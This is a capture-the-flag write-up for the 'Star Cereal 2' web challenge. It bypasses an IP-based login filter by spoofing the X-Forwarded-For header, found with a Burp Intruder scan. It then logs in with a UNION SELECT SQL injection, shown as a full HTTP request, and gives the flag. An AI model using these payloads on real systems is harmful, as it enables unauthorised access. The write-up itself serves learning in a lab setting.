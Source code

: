 ```yaml
---
description: Spoofable client IP address, SQL injection vulnerability
---
```


# Star Cereal 2

## Description

Ha, that was sneaky! But I've patched the login so that people like you can't gain access anymore. Stop hacking us!

`http://20.198.209.142:55045`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

## Solution

In `index.php`, notice the following comment

```markup
<!--
Star Cereal page by zeyu2001

TODO:
    1) URGENT - fix login vulnerability by disallowing external logins (done)
    2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Point 1) is referring to the previous challenge. Point 2) is interesting.

If we go to `login.php`, we get a 403 Forbidden Page:

```markup
<h1>Forbidden</h1>
<p>Only admins allowed to login.</p>
```

### Spoofable Client IP

We could deduce that perhaps the server filters requests by the client IP. 

A common security misconfiguration in implementing such a filter is the use of the [X-Forwarded-For header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For). This header is used for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer.

Note that HTTP request headers can be [easily spoofed](https://portswigger.net/kb/issues/00400110\_spoofable-client-ip-address). Knowing that one of the internal IP addresses is 172.16.2.155, we may want to check the 172.16.2.0/24 subnet for valid client IPs.

If we do a scan (e.g. using Burp Suite Intruder) for the 172.16.2.0/24 subnet with the `X-Forwarded-For` header, we would find that if we set:

```http
X-Forwarded-For: 172.16.2.24
```

then we would see the login page.

### Burp Suite Intruder Scan

First, set the payload position as follows:

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.07.01 PM.png>)

Then, configure the payload as a list of numbers from 1 to 255.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.08.01 PM.png>)

Run the attack. Sort the output by either the Status or Length columns. We will find that `X-Forwarded-For: 172.16.2.24` gives us a 200 OK response code, and shows us the login page.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.09.23 PM.png>)



### SQL Injection

Once we have access to the login page, notice the login form fields.

```markup
<form action="/login.php" method="post">
	<div class="form-group">
		<label for="email">Email address</label>
		<input type="email" class="form-control" id="email" name="email" placeholder="Enter email">
	</div>
	<div class="form-group">
		<label for="pass">Password</label>
		<input type="pass" class="form-control" id="pass" name="pass" placeholder="Enter password">
	</div>
	<button type="submit" class="btn btn-primary">Submit</button>
</form>
```

We need to submit an `email` and a `pass` parameter. We can exploit SQL injection to get the flag.

```http
POST /login.php HTTP/1.1
Host: localhost:55043
X-Forwarded-For: 172.16.2.24

...

Content-Type: application/x-www-form-urlencoded
Content-Length: 51

email=test&pass=test' UNION SELECT 'test', 'test';#
```

The flag is `STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}`.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 2.18.39 PM.png>)
